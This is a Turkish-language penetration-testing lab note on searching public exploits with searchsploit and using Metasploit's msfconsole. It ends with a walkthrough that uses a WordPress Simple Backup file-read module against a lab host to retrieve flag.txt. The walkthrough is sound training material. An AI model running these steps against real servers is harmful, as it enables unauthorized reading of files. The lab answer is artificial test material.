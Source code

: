 ```yaml
---
icon: material/help
search:
  boost: 2
---
```


# Public Exploits

## Finding Public Exploits

Güvenlik açıklarını aramak için `#!bash searchsploit` isimli aracı (Ubuntu için mevcut olmayabilir) kullanabiliriz.

Aracı yükle:

```bash
sudo apt update && sudo apt install -y exploitdb
```

Örnek bir arama gerçekleştir:

```bash
searchsploit openssh 7.2
```

## Metasploit Primer

MSF (Metasploit Framework), sızma testi için kullanılabilecek faydalı araçlardan birisidir. Birçok güvenlik açığına yönelik yerleşik istismarlar içerir. Araca ait bazı özellikler aşağıda verilmiştir:

* Hedefi gerçekten tehlikeye atmadan bir güvenlik açığının varlığını test etmek için doğrulama komut dosyaları içerir.
* Uzak bilgisayarları numaralandırmak için keşif komut dosyaları çalıştırabilir.
* Shell bağlantısı ve güvenliği ihlal edilmiş hedefler üzerinde komutlar çalıştırmak için kullanılan Meterpreter isimli aracı içerir.
* Birçok post-exploitation ve pivoting (lateral movement) aracı içerir.

MSF aşağıdaki komut ile sisteme yüklenebilir:

```bash
sudo apt update && sudo apt install -y metasploit-framework
```

Aşağıda Msfconsole aracı için bazı kullanım örnekleri verilmiştir:

| Command | Description |
|:---|:---|
| `#!bash msfconsole` | Konsol başlatılır. |
| `search` | Çeşitli aramalar gerçekleştirilir. |
| `help search` | Arama ile ilgili yardım görüntülenir. |
| `use` | Verilen bir modül kullanılır. |
| `show options` | Modül seçenekleri görüntülenir. |
| `set` | Modül seçenekleri ayarlanır. |
| `check` | Hedefin savunmasız olup/olmadığı kontrol edilir. |
| `exploit` | Exploit başlatılır. |
| `exit` | Konsol kapatılır. |

## Questions

```text
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```

??? tip "Steps"

    Soruda verilen hedef makine adresini tarayıcı arama çubuğuna gir ve adrese git.

    Açılan sayfada `Simple Backup Plugin 2.7.10 for WordPress` başlığına vurgu yapıldığını görebilirsin. Ardından Msfconsole içinde aşağıdaki aramayı gerçekleştir:

    ```text
    search wordpress backup
    ```

    Çıkan sonuçlardan Simple Backup ile ilgili olan [modülü](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/) kullan. Bu modül sayesinde dosyalar web sunucusu ayrıcalıklarıyla okunabilir:

    ```text
    use auxiliary/scanner/http/wp_simple_backup_file_read
    ```

    Modüle ait seçenekleri `show options` ile görüntüledikten sonra gerekli seçenekler ayarlanmalıdır. Soruda kök dizin `/` altındaki `flag.txt` dosyasının içeriğine ulaşmamız istendiğinden `FILEPATH` seçeneğinin değeri `flag.txt` olarak ayarlanmalıdır:

    ```text
    set FILEPATH flag.txt
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 94.237.49.11
    ```

    RPORT değerini ayarla:

    ```text
    set RPORT 49656
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Modül yürütmesi tamamlandıktan sonra `flag.txt` dosyası çıktıda belirtilen konuma kaydedilecektir. Konsolu kapattıktan sonra bu dosyanın içeriğini görüntüle:

    ```bash
    cat /home/user/.msf4/loot/20231103053630_default_94.237.49.11_simplebackup.tra_535374.txt
    ```
